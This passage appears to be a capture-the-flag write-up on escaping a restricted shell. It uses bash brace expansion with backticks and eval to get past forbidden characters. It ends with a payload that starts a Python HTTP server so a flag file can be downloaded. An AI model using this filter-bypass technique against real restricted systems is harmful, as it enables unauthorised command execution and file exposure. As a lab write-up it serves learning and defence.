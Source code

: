 ```.shell
$ echo {a..z}
a b c d e f g h i j k l m n o p q r s t u v w x y z

$ echo {1..10..2}
1 3 5 7 9

$ echo {o..u}ython
oython python qython rython sython tython uython
``` 

So obvisouly we can **bypass** the restricted characters by simpling iterating through a range of 
characters. Now the next step was to find a way how to **expand shell commands** (and this was the
most imporant part - thx again [maxenced](https://ringzer0team.com/profile/8593/maxenced)). I've tried sth 
like:

```.shell
$ eval {o..u}ython
bash: oython: command not found
```
`eval` was **not** expanding the commands. Then I've tried sth different:

```.shell
$ `echo echo {o..u}ython\\;`
oython; python; qython; rython; sython; tython; uython;
```

Now let me explain the changes:

* I've added backticks to run the commands
* I've added **\\;** at the end which simply adds a semicolon (;) at the end of each expansion

If I change the `echo` to `eval`, then `eval` will basically run:

```.shell
oython; python; qython; rython; sython; tython; uython;
```

Afterwards I've found out that `python` refused to start if STDIN = `/dev/null` (the same as with `vim`). Then
I remembered the solution in a previous level where I've start a **HTTP server** (using `python`) to "download" 
the flag.txt. So all I wanted to run was:

```.shell
$ python -m SimpleHTTPServer
```

As you may have noticed "SimpleHTTPServer" contains restricted characters like **r**. So we'll have to use *brace expansion* again:

```.shell
$ `echo echo {u..o}ython\ -m\ SimpleHTTPSe{u..o}ve{o..u}\\;`
...
```

The next step was to properly escape the backslashes to make sure that eval is executing the right thing. So the final payload was:

```.shell
$ eval eval py{o..u}hon\\ -m\\ SimpleHTTPSe{q..v}ve{q..v}\\; 
```

I would also want to thank David, Ralph and Tobias for their awesome ideas and the great hacking session we had on Friday :)


